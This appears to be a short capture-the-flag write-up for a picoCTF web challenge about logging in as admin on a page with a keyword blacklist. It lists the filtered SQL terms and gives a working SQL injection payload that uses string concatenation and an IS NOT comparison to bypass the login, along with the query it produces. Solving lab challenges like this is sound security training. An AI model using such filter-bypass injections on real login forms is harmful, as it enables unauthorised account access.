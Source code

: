 ## Description
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:35178/ Filter: http://mercury.picoctf.net:35178/filter.php

## Solution
Same as previous challenge. But with advance filters.

checking filter.php: `Filters: or and true false union like = > < ; -- /* */ admin`

We can use this payload: `user=adm'||'in&pass=1'IS+NOT+'fds`
with make sql query like:
```sql
SELECT username, password FROM users WHERE username='adm'||'in' AND password='1'IS NOT 'fds'
```

And will get us the flag.